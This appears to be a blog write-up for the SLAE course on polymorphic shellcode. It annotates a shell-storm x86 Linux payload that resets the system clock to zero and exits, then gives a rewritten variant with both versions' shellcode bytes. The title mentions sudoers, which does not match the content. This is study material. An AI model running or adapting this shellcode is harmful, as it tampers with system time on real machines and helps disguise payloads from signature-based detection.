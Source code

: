 ```yaml
---
layout: post
title: SLAE Exercise 6 - Polymorphic Shellcode Part 2 Sudoers
subtitle: Polymorphic Shellcode Part 2
tags: [SLAE]
---
```


Overview
======

The first chosen shellcode from shell-storm is the 'stime and exit' shellcode. This can be found [here](http://shell-storm.org/shellcode/files/shellcode-213.php). This shellcode sets the device's time to 0, and then gracefully exits. 

The original code can be seen fully commented below:

```
global _start			

section .text
_start:


;stime([0])

push byte 25 ; Push 25 to the stack
pop eax      ; Pop 25 into eax for the stime syscall
cdq          ; Extend eax into edx, clearing the edx register
push edx     ; Push edx to the stack (0)
mov ebx, esp ; Move stack pointer into ebx - the time parameter is pointed to
int 0x80     ; Interupt to syscall

;exit()

inc eax      ; On success, return value from stime is 0, inc to 1 for exit syscall
int 0x80     ; Call interupt to exit gracefully
```

Using various techniques, this code was altered to create a polymorphic version of it. This code can be seen full annotated below:

```
global _start			

section .text
_start:

;stime(0)
xor eax, eax  ; clear eax register
push eax      ; push 0 to the stack
add eax, 25   ; add 25 to eax for the stime syscall
xchg ebx, esp ; point to the 0 in the stack
int 0x80      ; interupt to syscall

;exit
inc eax       ; if succesful, return value is 0 to eac, increment eax to be 1 for exit syscall
int 0x80      ; interupt to syscall to exit gracefully
```
It can be clearly seen that the 'stime' section of the code is completely different from before, whilst maintaining a relatively small size. The 'exit' section of the code remains the same, this could be changed with an 'add' or 'mov' instruction, however using the 'inc' instruction maintains a small size. 

When compiled and the extracted, the shellcode appears as follows:

**Original**

```
"\x6a\x19\x58\x99\x52\x89\xe3\xcd\x80\x40\xcd\x80"
```

**Polymorphic**

```
"\x31\xc0\x50\x83\xc0\x19\x87\xdc\xcd\x80\x40\xcd\x80"
```

As can be seen, the polymorphic shellcode, which is nearly completely different, is only one byte larger. 
